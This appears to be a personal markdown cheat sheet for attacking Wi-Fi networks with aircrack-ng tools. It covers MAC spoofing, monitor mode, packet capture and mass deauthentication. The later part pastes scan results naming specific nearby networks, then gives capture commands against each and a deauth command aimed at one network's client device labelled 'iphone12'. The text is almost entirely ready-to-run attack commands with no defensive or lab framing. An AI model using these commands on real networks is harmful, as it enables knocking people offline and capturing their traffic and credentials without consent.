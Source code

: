 # Wifi hacking

## MAC (Media Access Control) Address change

```sh
ifconfig wlan0 down
iwconfig wlan0 mode managed #be sure interface is in managed mode
# airmon-ng check kill #try if needed
ifconfig wlan0 hw ether 00:11:22:33:44:55
ifconfig wlan0 up
```

## Monitor mode

```sh
airmon-ng check kill #kill all processes may realted with wireless interface
ifconfig wlan0 down
iwconfig wlan0 mode monitor #1 method or
airmon-ng start wlan0 #2 method
ifconfig wlan0 up
```

## Change the channel or name of interface

```sh
iwconfig wlan0 channel 3
iwconfig wlan0 essid 'myPi'
```

## Sniff packets

### Use specific band

- `a` - 5GHz
- `b,g` - 2.4GHz
- `n` - 2.4 and 5GHz
- `ac` - lower than 6GHz

```sh
airodump-ng --band abg wlan0
```

### Save captured data

```sh
airodump-ng --band a --channel 3 --write data_file wlan0
# and then open the file in wireshark
wireshark
```

## Deauth devices from network

### Deauth specific device

```sh
aireplay-ng --deauth 10000000 -a [wifi-mac-address] -c [client-mac-address] -wlan0
```

2C:C8:1B:F6:F8:9A  -59       49      562    0   3  130   WPA2 CCMP   PSK  Starlink-2G
34:2C:C4:18:F0:90  -67       10      118    0   1  130   WPA2 CCMP   PSK  UPC9912131
38:43:7D:8B:38:45  -82        9        2    0  11  130   WPA2 CCMP   PSK  UPC1774677
34:2C:C4:74:1D:72  -80        5        2    0   6  130   WPA2 CCMP   PSK  UPC5868970
88:CE:FA:EE:C3:13  -83        6       43    0  11  130   WPA2 CCMP   PSK  WLAN1-001891

airodump-ng --bssid 2C:C8:1B:F6:F8:9A --channel 3 --write /root/network-scan/scan-Starlink-2G wlan0
airodump-ng --bssid 34:2C:C4:18:F0:90 --channel 1 --write /root/network-scan/scan-UPC9912131 wlan0
airodump-ng --bssid 38:43:7D:8B:38:45 --channel 11 --write /root/network-scan/scan-UPC1774677 wlan0
airodump-ng --bssid 34:2C:C4:74:1D:72 --channel 6 --write /root/network-scan/scan-UPC5868970 wlan0
airodump-ng --bssid 88:CE:FA:EE:C3:13 --channel 11 --write /root/network-scan/scan-WLAN1-001891 wlan0
airodump-ng --bssid 24:A4:3C:A3:31:AC --channel 6 --write /root/network-scan/scan-unknown wlan0

iphone12 72:BA:C9:E6:56:DE

aireplay-ng --deauth 10000 -a 2C:C8:1B:F6:F8:9A -c 72:BA:C9:E6:56:DE wlan0

service NetworkManager start #To start Network Manager :-
or
systemctl start NetworkManager
service NetworkManager stop #To stop Network Manager:-
or
systemctl stop NetworkManager
service NetworkManager restart #To restart Network Manager:-
systemctl restart NetworkManager
